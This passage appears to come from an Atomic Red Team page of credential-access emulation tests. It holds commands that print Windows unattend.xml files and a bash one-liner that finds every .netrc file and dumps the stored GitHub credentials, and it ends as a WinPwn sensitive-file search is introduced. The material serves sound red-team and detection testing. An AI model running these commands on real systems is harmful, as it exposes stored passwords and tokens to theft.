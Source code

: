 **Supported Platforms:** Windows


**auto_generated_guid:** 367d4004-5fc0-446d-823f-960c74ae52c3






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
type C:\Windows\Panther\unattend.xml
type C:\Windows\Panther\Unattend\unattend.xml
```






<br/>
<br/>

## Atomic Test #6 - Find and Access Github Credentials
This test looks for .netrc files (which stores github credentials in clear text )and dumps its contents if found.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** da4f751a-020b-40d7-b9ff-d433b7799803






#### Attack Commands: Run with `bash`! 


```bash
for file in $(find / -name .netrc 2> /dev/null);do echo $file ; cat $file ; done
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - sensitivefiles
Search for sensitive files on this local system using the SensitiveFiles function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 114dd4e3-8d1c-4ea7-bb8d-8d8f6aca21f0




